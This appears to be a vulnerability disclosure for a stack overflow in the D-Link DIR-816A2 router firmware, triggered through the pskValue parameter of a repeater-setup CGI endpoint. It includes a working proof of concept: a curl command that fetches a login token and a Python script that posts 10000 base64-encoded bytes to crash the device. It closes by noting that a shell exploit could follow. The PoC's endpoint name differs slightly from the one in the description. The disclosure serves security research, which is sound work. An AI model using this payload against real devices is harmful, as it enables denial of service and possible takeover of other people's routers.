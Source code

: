 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2Wl5RepeaterStep2.cgi.  With the setRepeaterSecurity function,the contents obtained by the pskValue parameter are passed to V13, and then the contents matched by V13 are decoded and put into the V19 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2RepeaterStep2.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '6',
    'authType': 'a',
    'pskValue': payload
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell